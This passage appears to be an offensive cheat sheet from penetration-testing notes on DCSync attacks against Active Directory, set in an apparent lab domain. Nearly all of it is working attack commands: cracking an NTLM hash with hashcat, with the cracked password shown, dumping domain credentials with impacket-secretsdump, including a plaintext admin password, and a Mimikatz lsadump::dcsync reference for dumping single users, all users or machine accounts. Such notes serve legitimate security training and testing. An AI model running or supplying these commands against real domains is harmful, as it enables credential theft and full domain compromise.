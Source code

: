 **Extract NTLM Hash for Cracking:**
```bash
# Save hash to file
echo "08d7a47a6f9f66b97b1bae4178747494" > hashes.dcsync

# Crack NTLM hash with Hashcat
hashcat -m 1000 hashes.dcsync /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

**Successful Crack Output:**
```
08d7a47a6f9f66b97b1bae4178747494:Flowers1
```

### Advanced DCSync Techniques

**Dump All Domain Users:**
```bash
# Extract all domain user credentials
impacket-secretsdump corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.50.70
```

**Target Specific Domain Controllers:**
```bash
# Specify target domain controller
impacket-secretsdump -just-dc-user Administrator corp.com/jeffadmin:"password"@DC2.corp.com
```

**Extract Computer Account Hashes:**
```bash
# Target computer accounts (machine accounts)
impacket-secretsdump -just-dc-user "CLIENT75$" corp.com/jeffadmin:"password"@192.168.50.70
```

### DCSync Commands Reference

**Windows (Mimikatz):**
```mimikatz
# Basic user credential extraction
lsadump::dcsync /user:<domain>\<username>

# Target specific domain controller
lsadump::dcsync /user:<domain>\<username> /dc:<dc_fqdn>

# Extract all domain users (requires significant privileges)
lsadump::dcsync /all

# Target computer account
lsadump::dcsync /user:<domain>\<computer_name>$

# Extract specific domain
lsadump::dcsync /user:<username> /domain:<domain_fqdn>
```

**Linux (Impacket):**
```bash
# Single user extraction
impacket-secretsdump -just-dc-user <username> <domain>/<user>:<password>@<dc_ip>

# All domain users
impacket-secretsdump <domain>/<user>:<password>@<dc_ip>

# Use NTLM hash instead of password
impacket-secretsdump -just-dc-user <username> -hashes :<ntlm_hash> <domain>/<user>@<dc_ip>

# Target specific domain controller
impacket-secretsdump -just-dc-user <username> <domain>/<user>:<password>@<specific_dc_ip>
```